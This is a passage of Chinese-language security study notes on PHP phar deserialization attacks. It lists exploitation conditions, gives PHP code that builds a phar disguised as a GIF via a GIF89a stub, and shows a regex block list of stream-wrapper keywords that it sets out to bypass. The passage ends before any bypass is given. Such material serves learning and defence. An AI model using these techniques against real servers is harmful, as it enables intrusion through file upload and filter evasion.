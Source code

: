 phar协议要求：

- php大于5.3.0
- 需要将php.ini的参数phar.readonly设置为off

**漏洞利用条件**

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

#### 将phar伪造成其他格式的文件

如果文件上传界面后端代码会检查文件类型的话，就需要将 phar 文件未造成其他格式文件

由于php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![image-20230717012512791](daydayup.assets/image-20230717012512791.png)

#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法
